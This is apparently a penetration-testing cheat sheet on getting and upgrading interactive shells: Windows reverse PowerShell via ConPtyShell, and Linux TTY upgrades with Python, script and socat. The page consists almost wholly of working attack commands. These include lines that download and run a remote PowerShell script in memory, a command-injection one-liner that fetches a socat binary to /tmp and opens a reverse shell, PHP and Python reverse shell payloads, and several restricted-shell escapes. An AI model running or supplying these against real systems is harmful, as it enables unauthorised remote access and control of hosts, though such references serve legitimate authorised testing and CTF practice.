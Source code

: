 # ⭕ Shell Escape / Interactive TTY

## windows interactive reverse powershell

{% embed url="https://github.com/antonioCoco/ConPtyShell" %}

#### Server (attacker) Side:

```
stty raw -echo; (stty size; cat) | nc -lvnp 3001
```

#### Client Side (directly load from git repository):

```
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 3001
```

#### or, if you upload the ps1:

```
IEX(Get-Content .\Invoke-ConPtyShell.ps1 -Raw); Invoke-ConPtyShell 10.0.0.2 3001
```

#### or download the reverse shell and upload it to target yourself

```
wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1
IEX(IWR http://192.168.56.1/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell 192.168.56.1 9999
```

## Linux Interactive Shell

### check $SHELL and $PATH

fix the path problem if you cant access default shells

```
export PATH=/bin:/usr/bin:$PATH
```

### Using Python & STTY

#### In your current non-interactive reverse shell type:

```
 python -c 'import pty; pty.spawn("/bin/bash")'
```

#### press Ctrl+z to send the shell to background

#### then in the same terminal type in:

```
echo $TERM >>> take note of terminal name
stty -a >>> take note of raws and columns numbers
stty raw -echo
fg
```

#### then you will have an empty terminal, type these:

```
 reset
 export SHELL=bash
 export TERM=xterm-256color  OR export TERM=xterm
stty rows <num> columns <cols>
```

### Using /usr/bin/script

#### in your current non-interactive reverse shell type in:

```
 /usr/bin/script -qc /bin/bash /dev/null
```

the rest is like the above method, we just use /usr/bin/script if python is not installed

### Using Socat & STTY

attacker:

```
socat file:`tty`,raw,echo=0 tcp-listen:4444
```

victim:

```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

If socat isn’t installed, you’re not out of luck. There are standalone binaries that can be downloaded from this awesome Github repo:

{% embed url="https://github.com/andrew-d/static-binaries" %}

With a command injection vuln, it’s possible to download the correct architecture socat binary to a writable directoy, chmod it, then execute a reverse shell in one line:

```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```

## Semi-interactive Spawn & Escape

### ​​rbash escape through SSH

```
ssh hackNos@<IP-Adress> -t "bash --noprofile"
```

### rbash escape through editors

```
vi
:set shell=/bin/bash
:shell
```

### escaping rbash – editor

```
ed
!'/bin/bash'
pwd
```

### escape rbash through reverse shell

```
nc -lvp 4545
php -r '$sock=fsockopen("ip-address",port);exec("/bin/bash -i <&3 >&3 2>&3");'
```

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ip-address",port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

### rbash escape Awk

```
awk 'BEGIN {system("/bin/bash")}'
```

### interpreters

```
python -c 'import pty; pty.spawn("/bin/sh");'  
python3 -c 'import os; os.system("/bin/bash");'
perl -e 'exec "/bin/sh";'
ruby -e ‘exec "/bin/sh"’
lua -e 'os.execute('/bin/sh')'
```

### rbash bypass through binary file

```
less anyfile.txt
!'bash'
```

### sh

```
/usr/bin/script -qc /bin/bash /dev/null
echo os.system('/bin/bash')
/bin/sh -i
exec "/bin/sh"
```

### ​​within nmap

```
!sh
```

### rlwrap for Making the Shell Semi-interactive

```
# use with netcat or other shells
rlwrap nc -nvlp 1234
```

### in meterpreter

```
execute -f cmd.exe -H -c -i
```
